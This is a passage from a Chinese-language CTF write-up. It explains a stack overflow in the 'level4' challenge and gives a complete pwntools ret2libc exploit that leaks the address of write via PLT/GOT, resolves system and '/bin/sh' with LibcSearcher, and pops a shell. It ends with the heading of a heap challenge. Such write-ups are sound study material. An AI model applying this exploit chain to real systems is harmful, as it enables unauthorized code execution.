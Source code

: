 直接就有一个很大的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level4') 
e = ELF('./level4')
offset = 0x88

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)

p.send(payload1)
write_addr = u32(p.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'*offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload2)
p.interactive() 
```

运行即得flag

![](img/d1df5caddd46cf718b342293baf5c9a7.png)

# 0x027.[V&N2020 公开赛]simpleHeap - off by one + fastbin attack + one_gadget

又是一道堆题来了，~~看来往后应该都是堆题为主了~~，不出所料，保 护 全 开
